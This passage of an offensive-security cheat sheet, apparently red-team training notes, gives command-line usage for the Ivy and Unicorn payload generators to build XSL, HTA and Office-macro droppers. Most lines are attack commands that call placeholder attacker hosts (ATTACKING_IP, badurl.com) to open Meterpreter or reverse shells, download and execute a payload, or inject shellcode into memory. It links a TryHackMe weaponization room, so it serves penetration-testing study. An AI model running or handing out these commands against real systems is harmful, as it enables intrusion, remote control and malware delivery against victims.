 ```bash
./Ivy -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -O test.xsl -url http://ATTACKING_IP -delivery xsl -stageless

#Generate a oneliner and hta payload for MSHTA.exe delivery
./Ivy -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -O test.hta -url http://ATTACKING_IP -delivery hta -stageless
```
{% endtab %}

{% tab title="Unicorn" %}
[Unicorn](https://github.com/trustedsec/unicorn) is a simple tool for using a PowerShell downgrade attack and inject shellcode straight into memory. It can be used to generate a macro.

```bash
# Syntax:
# python unicorn.py payload reverse_ipaddr port <optional hta or macro, crt>

# Examples:
# Meterpreter
python unicorn.py windows/meterpreter/reverse_https <ATTACKING_IP> <ATTACKING_PORT> macro

# Reverse Shell
python unicorn.py windows/x64/shell_reverse_tcp <ATTACKING_IP> <ATTACKING_PORT> macro

# Download Exec
python unicorn.py windows/download_exec url=http://badurl.com/payload.exe macro

# Custom Powershell script
python unicorn.py evil.ps1 macro

# Custom shellcode
# shellcode should be 0x00 formatted
python unicorn.py <path_to_shellcode.txt> macro
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/weaponization" %}

